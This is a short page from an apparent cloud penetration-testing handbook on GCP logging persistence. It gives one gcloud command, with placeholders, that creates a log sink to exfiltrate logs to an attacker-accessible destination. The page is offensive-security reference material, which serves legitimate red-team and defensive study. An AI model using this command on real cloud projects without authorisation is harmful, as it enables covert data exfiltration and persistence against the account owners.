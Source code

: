 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Find more information about Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Create a sink to exfiltrate the logs to an attackers accessible destination:

```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```

{{#include ../../../banners/hacktricks-training.md}}



